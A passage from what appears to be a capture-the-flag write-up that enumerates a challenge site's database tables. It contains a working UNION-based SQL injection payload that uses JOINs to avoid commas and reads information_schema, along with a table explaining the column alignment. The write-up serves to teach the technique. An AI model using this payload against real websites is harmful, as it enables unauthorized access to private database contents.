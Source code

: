 Going back to the original question <br>
>In Jack Frost's TODO list, what job position does Jack plan to offer Santa?  <br>

The zip file containing source code also contains the database schema in the encontact_db.sql <br>
None of the tables in the encontact_db.sql suggest they could store todo items where we need to look for. <br> 
This means there are additional tables which the source code does not provide us.<br>

So, we query the system database views to find the additional tables. <br>

So we query the database to find the additional tables.

```
https://staging.jackfrosttower.com/detail/1,30 
UNION SELECT * FROM (SELECT 9999)a 
JOIN (SELECT 8888)b 
JOIN (SELECT TABLE_NAME from information_schema.TABLES as email )c 
JOIN (SELECT 7777)d 
JOIN (SELECT 6666)e 
JOIN (SELECT 5555)f 
JOIN (SELECT 4444)g --
```
In the above query, we are combining the uniquecontact with hard coded values along with the table names from INFORMATION_SCHEMA.TABLES. <br>
Its UNION which requires the number of columns and their names match between the tables getting union'ed.

<table>
    <tr>
        <th>Columns in the "uniquecontact" table</th>
        <th>Hardcoded</th>
    </tr>
    <tr>
        <td>id</td>
        <td>9999</td>
    </tr>
    <tr>
        <td>full_name</td>
        <td>8888</td>
    </tr>
    <tr>
        <td>email</td>
        <td>SELECT TABLE_NAME from information_schema.TABLES</td>
    </tr>
    <tr>
        <td>phone</td>
        <td>7777</td>
    </tr>
    <tr>
        <td>contry</td>
        <td>6666</td>
    </tr>
    <tr>
        <td>date_created</td>
        <td>5555</td>
    </tr>
    <tr>
        <td>date_update</td>
        <td>4444</td>
    </tr>
</table>
